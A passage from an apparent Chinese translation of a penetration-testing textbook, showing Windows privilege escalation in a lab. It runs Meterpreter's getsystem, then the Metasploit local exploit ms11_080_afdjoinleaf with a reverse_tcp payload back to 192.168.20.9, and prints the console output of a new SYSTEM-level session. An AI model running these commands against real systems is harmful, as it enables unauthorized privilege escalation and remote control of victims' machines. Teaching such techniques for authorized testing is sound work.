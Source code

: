 ```
meterpreter > **getsystem**
...got system (via technique 1).
meterpreter > **getuid**
Server username: NT AUTHORITY\SYSTEM
```

如你所见，Meterpreter 通过第一次尝试的漏洞成功获得了系统权限。通过一个命令，我们就能够将权限从*georgia*提升到*System*。

### Windows 本地升级模块

Metasploit 中的本地漏洞利用模块允许你在一个打开的会话中运行漏洞利用程序，以获得额外的访问权限。示例 13-8 中的本地特权升级模块*exploit/windows/local/ms11_080_afdjoinleaf*利用了`Afdjoinleaf`函数中的一个（现已修复的）漏洞，该函数属于*afd.sys* Windows 驱动程序。与后期利用模块类似，使用`SESSION`选项来指定应该在哪个打开的会话中运行漏洞利用程序。我们将在 Windows XP 会话中运行该模块。与后期利用模块不同，本地漏洞利用程序是漏洞利用程序，因此我们需要设置一个有效载荷。如果成功，我们的漏洞利用程序将打开一个具有系统权限的新会话。在你的 Windows XP Meterpreter 会话中，运行命令**`rev2self`**将权限降回到用户*georgia*，然后再使用这种替代的特权升级技术。

示例 13-8. Metasploit 本地漏洞利用

```
msf post(enum_logged_on_users) > **use exploit/windows/local/ms11_080_afdjoinleaf**
msf exploit(ms11_080_afdjoinleaf) > **show options**

Module options (exploit/windows/local/ms11_080_afdjoinleaf):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
--*snip*--
msf exploit(ms11_080_afdjoinleaf) > **set SESSION 1**
SESSION => 1
msf exploit(ms11_080_afdjoinleaf) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf exploit(ms11_080_afdjoinleaf) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf exploit(ms11_080_afdjoinleaf) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] Running against Windows XP SP2 / SP3
--*snip*--
[*] Writing 290 bytes at address 0x00f70000
[*] Sending stage (751104 bytes) to 192.168.20.10
[*] Restoring the original token...
[*] Meterpreter session 4 opened (192.168.20.9:4444 -> 192.168.20.10:1108) at 2015-08-14 01:59:46 -0400

meterpreter >
```

在输入**`exploit`**后，Metasploit 将在我们的 Windows XP 会话中运行该漏洞利用程序。如果攻击成功，你应该会收到另一个 Meterpreter 会话。如果在这个新会话中运行`getuid`，你应该会看到你再次获得了系统权限。

### 注意
